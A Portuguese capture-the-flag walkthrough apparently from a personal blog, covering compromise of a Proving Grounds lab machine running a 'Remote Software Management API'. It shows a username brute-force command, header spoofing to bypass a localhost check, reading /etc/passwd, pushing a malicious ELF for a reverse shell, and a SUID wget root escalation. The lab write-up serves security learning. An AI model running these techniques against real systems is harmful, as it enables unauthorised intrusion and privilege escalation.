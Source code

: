 ```yaml
---
title: Proving Grounds - Tokyo Ghoul
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Proving Grounds]
tags: [writeup, walkthrough, proving, grounds, PG, tutorial, hacking, pentest, ctf, capture, flag, proof, linux, medium, médio]
mermaid: true
image: 
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_medio.png) | ![](/assets/img/nivel/button_medio.png) | 14 de Dezembro de 2022 | 19 de Dezembro de 2022

## 1. Escaneamento

```bash
Nmap scan report for 192.168.160.134
Host is up (0.21s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
13337/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/14%OT=22%CT=1%CU=33249%PV=Y%DS=2%DC=T%G=Y%TM=6399E8
OS:E2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I)SEQ(SP=108%G
OS:CD=1%ISR=109%TI=Z%TS=9)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I%TS=A)OPS(O1=M5
OS:4EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O
OS:6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=A
OS:R%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## 2. Enumeração

### Remote Software Management (13337)

Ao entrar na página web, vemos que a aplicação é um tipo de API e ja nos é exposto algumas rotas

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi.png)

> /version
{: .prompt-info }

A rota `version` apenas nos retorna a versão `1.0.0b` e provavelmente um hash md5 em sequência `8f887f33975ead915f336f57f0657180`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi1.png)

> /logs
{: .prompt-info }

A rota logs mostra que nosso hpst não tem acesso ao logs, provavelmente por ser acessível somente localmente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi2.png)

Seguindo a descrição da rota update, deve-se enviar um post com user e url de um arquivo elf, para ser baixado e executado. Obviamente, aqui é o ponto de entrada, porém falta o nome de usuário.

```html
/update

Methods: POST

Updates the app from ELF file. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

> /update
{: .prompt-info }

Como forma de descobrir o usuário, meu primeiro pensamento foi em tentar um bruteforce, então utilizando a ferramenta ffuf, tentei encontrar um usuário cuja resposta da página não retornasse `username invalid` porém não obtive sucesso…

- Comando: `ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u [http://192.168.117.134:13337/update](http://192.168.117.134:13337/update) -X POST -H "Content-Type: application/json" -d '{"user": "FUZZ", "url": "[http://192.168.49.117](http://192.168.49.117/)"}' -fs 17 -x [http://127.0.0.1:8080](http://127.0.0.1:8080/)`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi3.png)

> /restart
{: .prompt-info }

Ao enviar o restart, aparece um popup de confirmação do reinicio, porém ao clicar nele nada acontece aparentemente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi4.png)

Ao interceptar com o Burp, verifica-se que o script envia um json de confirmação via POST pra causar o reinicio. Ao replicar isso, o serviço realmente reinicia:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi5.png)

Retornando a rota logs, procurei uma forma de burlar a detecção de host do sistema. Encontrei algumas dicas no HackTricks, onde sugere-se o uso de alguns headers que podem causar esse bypass.

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

Ao testar o segundo header, uma mensagem de erro diferente apareceu, sugerindo usar um parâmetro na url para ter acesso ao arquivo de log.

- Header: `X-Forwarded-For: 127.0.0.1`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi6.png)

Como o nome do arquivo é passado, tentei passar direto o arquivo de usuários `/etc/passwd` e deu certo, nos retornando a lista de usuários, agora podemos tentar upar o arquivo `.elf` malicioso usando o usuário `clumsyadmin`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi7.png)

Pra isso, subi um servidor http em python e enviei a requisição via BURP, retornando com sucesso a requisição para nós.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi8.png)

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi9.png)

## 3. Acesso Inicial - Exploração

Sendo assim, criei o binário com o msvenom, subi o servidor HTTP e abri uma porta de escuta para receber o shell

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi10.png)

Agora é necessário reiniciar o servidor e é só reenviar o post com a confirmação que descobrimos antes:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi11.png)

E o shell veio:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi12.png)

## 4. Pós Exploração

Como de praxe, upei o [`linpeas.sh`](http://linpeas.sh) e fiz a varredura interna de vulnerabilidades.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi13.png)

A enumeração nos retornou o binário `wget` com execução de `SUID`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi14.png)

## 5. Escalação de Privilégio

Então é só seguir os comandos descritos no GTFOBins

> [wget | GTFOBins](https://gtfobins.github.io/gtfobins/wget/#suid)
{: .prompt-info }

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

Por fim, root.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi15.png)